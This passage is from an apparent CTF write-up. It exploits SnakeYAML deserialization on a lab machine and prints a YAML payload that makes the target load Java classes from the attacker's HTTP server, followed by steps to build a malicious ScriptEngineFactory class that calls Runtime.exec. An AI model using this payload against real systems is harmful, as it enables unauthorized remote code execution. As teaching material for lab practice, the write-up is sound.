 {: .notice--warning}
Just want to throw this out there - I don't advise blindly throwing payloads out there on an actual engagement. It can lead to you getting caught if their security is up to snuff, or you can just look like a moron (which I don't need any help doing anyways). For a CTF though, go buck wild - send whatever your heart desires!

If you read through the article, we essentially can pass in Java class objects' constructors in order to call functions and such. About halfway down we see a Proof-of-Concept file; let's modify and use that like so:

```yaml
!!javax.script.ScriptEngineManager [
    !!java.net.URLClassLoader [[
        !!java.net.URL ["http://10.10.17.239/"]
    ]]
]
```

Remember to sub out your IP in that payload. Spin up a server with `python3 -m http.server 80`, slap that payload into the YAML parser, and click "Parse" to be greeted with a lovely sight...

![The victim server requesting a file off of our Python server.](/assets/images/ophiuchi/poc_result.png)

Fantastic, we have code execution (even though it said it was disabled, _GASP!_) and can move forward with this attack. Notice that it's looking for the file `/META-INF/services/javax.script.ScriptEngineFactory` - that will come up in a bit. Continuing down the Swapneil article we find a link to a GitHub named `artsploit/yaml-payload`: [ARTSPLOIT](https://github.com/artsploit/yaml-payload). Essentially I copied _just_ the `AwesomeScriptEngineFactory.java` file and ignored the rest, you can find that file [HERE](https://github.com/artsploit/yaml-payload/blob/master/src/artsploit/AwesomeScriptEngineFactory.java).

Now that we have that file we're going to set up for a PoC that's simple, something like `ping`'ing our box will confirm it works nicely. There are a few things we need to do _first_ to set up the file structure, however. First choose a package name in your head - I'm going to use `sp1icersploit` - and then do the following:

* `mkdir sp1icersp1oit`: make our package directory that will contain our RCE code
* `mkdir -p META-INF/services/`: make our directory that will contain our `javax.script.ScriptEngineFactory` file, which just points to which code package to use

We'll start with a few changes - the first thing I did was `mv AwesomeScriptEngineFactory.java sp1icersploit/sp1icer.java`, since it's shorter and I'm lazy. Let's edit that `sp1icer.java` file with a few ~~personalizations~~ changes...

* Change the package listing at the top to `package sp1icersploit`
* Change `public AwesomeScriptEngineFactory()` to `public sp1icer() throws InterruptedException`
* Remove the original lines inside of the (now) `sp1icer()` function, including the `try{} catch{}` blocks. 
* Inside of our `sp1icer()` function, add the following code: `Runtime.getRuntime().exec("ping -c 4 10.10.17.239");`

Aight, now we're cooking with fire. We've set up our `sp1icer.java` file with new code that we want it to execute when called - compile it with `javac sp1icer.java`. This should spit out a `.class` file which is what the Java server will require to execute the code. 
